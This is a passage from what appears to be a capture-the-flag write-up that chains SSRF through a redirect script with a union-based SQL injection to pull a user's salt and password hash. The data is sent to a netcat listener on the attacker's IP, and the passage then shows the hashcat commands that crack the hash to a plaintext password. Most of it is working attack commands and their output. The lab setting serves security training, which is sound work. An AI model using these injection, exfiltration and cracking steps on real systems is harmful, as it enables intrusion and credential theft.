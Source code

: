 Here we got a password that doesn’t really look like plain text password but more like hashed password. Let’s go and get the salt of that password if possible. 

```bash
#The injection
➜  sudo python3 redirect.py --url "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,1,(select/**/salt/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--" --port 80 --ip 0.0.0.0

#The result
nc -nvlp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.176 43658
POST / HTTP/1.1
Host: 10.10.16.6:4444
Accept: */*
Content-type: application/json
Content-Length: 738

{"webhookUrl":"http:\/\/10.10.16.6:4444","monitoredUrl":"http:\/\/10.10.16.6","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"},{\"username\":\"sO3XIbeW14\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/1\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Server":"BaseHTTP\/0.6 Python\/3.10.6","Date":"Sat, 07 Jan 2023 07:10:37 GMT","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/union\/**\/all\/**\/select\/**\/1,1,(select\/**\/salt\/**\/from\/**\/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"174"}}
```

so understanding the output we can see that the only username valid is susanne and we got a hashed passowrd and the salt of that password. 

Here is how to put those parameters into a hashed password. since the format for a PBKDF2 a shown by google when asked, we need to format those information from the databse in a way that we can get a hashed password looking like this <mark style="color:green;">sha256:10000:base64_salt:base64_hashed_password </mark>

```bash
echo 'sha256:10000':$(echo 'sO3XIbeW14' | base64 | cut -c1-14)':'$(echo '66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37' | xxd -r -p | base64) > hash.txt

#output of the hashed file
➜  cat hash.txt 
sha256:10000:c08zWEliZVcxNA:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=
```

Now let’s crack it using Hashcat

```bash
10900  PBKDF2-HMAC-SHA256  sha256:10000:MTc3MTA0MTQwMjQxNzY=:PYjCU215Mi57AYPKva9j7mvF4Rc5bCnt
```

```bash
#command to run
➜  hashcat -m 10900 hash.txt /usr/share/wordlists/rockyou.txt

#cracked hash
sha256:10000:c08zWEliZVcxNA:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=:february15

```
